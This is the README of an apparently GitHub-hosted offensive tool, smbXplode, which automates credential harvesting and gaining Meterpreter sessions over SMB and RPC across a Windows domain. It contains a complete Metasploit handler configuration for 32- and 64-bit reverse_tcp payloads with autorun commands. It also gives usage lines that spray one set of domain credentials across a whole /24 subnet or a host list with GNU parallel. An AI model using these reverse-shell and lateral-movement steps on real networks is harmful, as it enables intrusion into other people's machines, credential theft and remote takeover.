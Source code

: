 # smbXplode

This tool is used to automate the process of harvesting credentials and getting meterpreter sessions throught the smb and rpc in a windows domain.
For this to work you would need to have some kind of admin credentials to start with. or you could have some low previledge creds that you want to try them agains the whole range and try to escalate your priviledge later on. 

You can always re-adapt msfcommands.rc to automate the metasploit commands that you wanna run once you have a session. 

Also notice that due to the use of net rpc, you need to migrate first thing after a session otherwise the session would die. Unless you want to use the winexe command ( which you can find commented in the script ).

### Usage 
Before running this script, simply make sure that you have two payload files (32 & 64 bit). Make sure to update the name of the files accordingly in the script. 

#### Handler
Make sure to have your Metasploit handler listening for both payloads ( you can listen two different ports for 32, and 64 ).
Also, make sure you select the correct payload for the handler, I will demonstrate the reverce_tcp (32 and 64) 

example :
----------------------------------------------------
use exploit/multi/handler
set autorunscript multi_console_command -rc /path/to/msfcommands.rc
set ExitOnSession false
set payload windows/x64/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport 1111
run -j -z
set payload windows/meterpreter/reverse_tcp
set lport 2222
run -j -z
------------------------------------------------------

Now make sure that your connect back payloads are configured to match those ports and payload type. 

#### Single Host
To run the script simply use the following syntax
./smbXplode.sh domain username password hostIP

example : 
./smbXplode.sh domain tito Password2015 10.10.10.10

#### Multiple Hosts
So far it's not really integrated into the script, as I like to keep it as simple as possible. I rely on GNU parallel to do that. 
Notice that parallel passes the IP as the last parameter already. 

example 
running against a /24
for i in {1..254}; do echo 10.10.10.$i; done | parallel -j 5 ./smbXplode.sh domain tito Password2015

running against host ips file
cat hosts.txt | parallel -j 5 ./smbXplode.sh domain tito Password2015

